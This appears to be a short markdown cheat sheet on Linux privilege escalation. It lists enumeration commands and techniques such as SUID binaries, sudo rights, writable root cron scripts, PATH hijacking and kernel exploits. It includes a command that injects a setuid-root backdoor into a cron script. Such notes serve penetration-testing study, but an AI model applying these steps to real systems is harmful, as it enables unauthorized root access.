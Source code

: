 # Privilege Escalation

## Enumeration Summary
`$ netstat -antup`
`$ ps -aux | grep root`
`$ find / -perm -u=s -type f 2>/dev/null`
`$ sudo -l`
`$ ls -la /etc/cron.d`
`$ echo $PATH`
`$ uname -a`


## Root Services Exploit
Certain services are run as root when they shouldn't be. These can be either database or mail/web servers.

### Enumeration
`$ netstat -antup` to find list of open ports
`$ ps -aux | grep root` to find list of processes running as root


## SUID executable
`setuid` is a flag that allows users to run an executable with the permission of the file owner. If the file owner is root,
then the executable can be used to achieve root. Useful when executables is file editor/compiler/interpreter

### Enumeration
`$ find / -perm -u=s -type f 2>/dev/null` to find list of executables with suid bit set


## Sudo rights
Allowing certain executables as root. For example, `find` can be used to search for logs, but also start a shell

### Enumeration
`$ sudo -l` list commands user can run in sudo


## Root cron jobs
The goal is to find cron jobs that execute world-writable scripts. 
We can then create a shell-spawn executable, and elevate its privileges in said script.

### Enumeration
`$ ls -la /etc/cron.d` lists cron jobs
`$ find / -perm -2 -type f 2>/dev/null` finds world-writable files. We want to find scripts called from cron jobs

### Exploit
`$ echo "chown root:root /tmp/rootme; chmod u+s /tmp/rootme;" >/usr/local/sbin/cron-logrotate.sh`


## . in path
Root users might add `.` to their path to save typing `./`

### Enumeration
`$ echo ${PATH}`

### Exploit
Create an executable that contains a shell-spawning script, and wrap it around a common tool.
Then, trick root user to use said tool


## Kernel Exploit Attack
We need:
- A vulnerable kernel
- A matching exploit
- Ability to transfer exploit onto the target
- Ability to execute exploit onto the target

### Enumeration
`uname -a` gets kernel version

### Exploit
`$ searchsploit Linux Kernel 2.6.24` searches for exploits of that version
